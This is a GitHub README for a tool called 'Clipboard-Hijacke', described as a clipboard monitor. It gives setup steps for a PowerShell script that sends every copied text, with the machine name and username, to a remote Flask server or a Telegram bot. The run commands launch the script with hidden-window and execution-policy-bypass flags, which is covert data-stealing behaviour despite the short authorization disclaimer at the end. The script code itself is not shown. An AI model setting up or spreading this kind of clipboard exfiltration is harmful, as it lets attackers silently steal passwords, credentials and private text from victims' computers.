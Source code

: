 ```yaml
---

# **📋 Real-Time Clipboard Monitor**

A lightweight, real-time clipboard monitoring system that detects new copied text and sends it to a server for centralized logging. Perfect for tracking clipboard activity in controlled environments, such as development testing or data aggregation tasks.

---
```


## **✨ Features**

- **Real-Time Monitoring**: Instantly detects and logs clipboard changes.
- **Automatic Logging**: Sends clipboard data, along with the machine name and username, to a server.
- **Simple & Lightweight**: Uses a Flask server and a PowerShell script for seamless integration.
- **Error-Resilient**: Handles unexpected errors gracefully to ensure uninterrupted operation.

---

## **🛠️ How It Works**

1. A **PowerShell script** monitors the clipboard for new content.  
2. When new text is copied, it sends the data to a **Flask server**.
3. The server logs the clipboard content along with the machine and user information to `clipboard_logs.txt`.

---

## **🚀 Getting Started**

### **1. Set Up the Flask Server**

#### Prerequisites:
- Python 3.8 or later.
- Basic knowledge of running Python scripts.

#### Steps:
1. **Clone this repository**:
   ```bash
   git clone https://github.com/Moajjem404/Clipboard-Hijacke.git
   cd Clipboard-Hijacke
   ```
2. **Install dependencies**:
   ```bash
   pip install flask
   ```
3. **Start the server**:
   ```bash
   python server.py
   ```
4. The server will run on `http://0.0.0.0:5000` by default. Feel free to modify the port in `server.py` if needed.

---

### **2. Configure the PowerShell Server Script**

#### Prerequisites:
- Windows OS with PowerShell 5.0 or later.

#### Steps:
1. Open the `clipboard_monitor.ps1` script in a text editor.
2. Replace `<your-server-ip>` with the IP or domain of your Flask server:
   ```powershell
   $url = "http://<your-server-ip>:5000/clipboard_receiver"
   ```
3. Save the changes and **run the script**:
   ```powershell
   powershell -NoP -NonI -W h -Exec Bypass .\clipboard_monitor.ps1
   ```

### **3. Configure the PowerShell Telegram Script**

#### Prerequisites:
- Windows OS with PowerShell 5.0 or later.

#### Steps:
### Step 1: Open the Script  
1. Open your **`clipboard_monitor-tg.ps1`** file using a text editor, such as **Windows PowerShell ISE**, **Notepad++**, or **Visual Studio Code**.

---

### Step 2: Add Your Telegram Bot Token  
1. Locate the placeholder `<your-bot-token>` in the script.  
2. Replace it with your actual Telegram Bot Token.  
   **Example:**
   ```powershell
   $botToken = "123456789:ABCDEFGHIJKLMNOPQRSTUVWXYZ"
   ```

---

### Step 3: Add Your Telegram Chat ID  
1. Locate the placeholder `<your-chat-id>` in the script.  
2. Replace it with your Telegram Chat ID.  
   **Example:**
   ```powershell
   $chatID = "123456789"
   ```

---
4. Save the changes and **run the script**:
   ```powershell
   powershell -NoP -NonI -W h -Exec Bypass .\clipboard_monitor-tg.ps1
   ```

The script will now run continuously, monitoring and sending clipboard data as changes occur.

---

## **📂 Log Format**

The server logs clipboard data in `clipboard_logs.txt` in the following format:

```
[MACHINE_NAME] [USER_NAME] Clipboard: <copied_text>
```


## **⚠️ Security Notice**

🚨 **IMPORTANT:** This tool is intended for **personal or controlled environments** only.  
⚠️ **DO NOT** use this tool in shared or public networks without proper authorization.

---


